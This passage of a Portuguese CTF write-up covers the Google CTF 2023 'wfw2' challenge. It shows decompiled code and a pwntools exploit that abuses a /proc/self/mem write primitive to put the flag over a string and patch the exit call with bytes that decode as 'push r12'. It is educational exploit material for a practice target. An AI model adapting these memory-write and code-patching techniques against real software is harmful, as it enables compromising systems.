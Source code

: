 ```bash
                var_60h = 0;
                var_58h = 0;
                var_50h = 0;
                var_48h = 0;
                var_40h = 0;
                var_38h = 0;
                var_14h = sym.imp.read(var_ch, &buf, 0x40);
                iVar1 = sym.imp.__isoc99_sscanf(&buf, "0x%llx %u", &nbytes + 4, &nbytes);
                if ((iVar1 != 2) || (0x7f < nbytes)) break;
                fd = sym.imp.open("/proc/self/mem", 2);
                sym.imp.lseek64(fd, stack0xffffffffffffffd8, 0);
                sym.imp.write(fd, obj.flag, nbytes);
                sym.imp.close();
            }
            sym.imp.exit(0);
// [] Depois do exit existe mais codigo
            sym.imp.dprintf(var_ch, "Somehow you got here??\n");
            uVar2 = sym.imp.abort();
        }
    }
    return uVar2;
}
[0x00001100]>
```

Perfeito! Agora temos um alvo, sobrescrevemos a string “Somehow you got here??” com a nossa flag, e após isso “pulamos” a `exit`.

Para ignorar o `call exit`, usei o pattern da flag para escrever uma instrução, como podemos escolher quantos bytes queremos escrever, vamos escrever em `call exit` “CCCCT”:

```bash
r3tr0@pwnmachine:~$ python3
...
>>> hex(ord('C')), hex(ord('T'))
('0x43', '0x54')
r3tr0@pwnmachine:~$ rasm2 -ax86 -b64 -d 0x4343434354
push r12
```

Com isso, podemos “ignorar” o `exit` e alcançar o dprintf desejado.

```python
# pwn template ./chal --host wfw2.2023.ctfcompetition.com --port 1337
...
io = start()

io.recvuntil(b"It's the challenge from before, but I've removed all the fluff")
maps = io.recvuntil(b'\n\n')

elf_base = parse_maps(maps)
log.info('Elf start: ' + hex(elf_base))

# pause()
# ljust(0x40) for fill each read buffer
p = lambda x, y: (hex(x) + ' ' + str(y)).encode().ljust(0x40, b'\0')

string_addr = elf_base + 0x20d5
io.send(p(string_addr, 100))

# create push r12 from "C" and "CT" from flag
# two pushes are needed because of stack alignment

before_call_exit = elf_base + 0x143b
io.send(p(before_call_exit, 1))
io.send(p(before_call_exit+1, 1))
```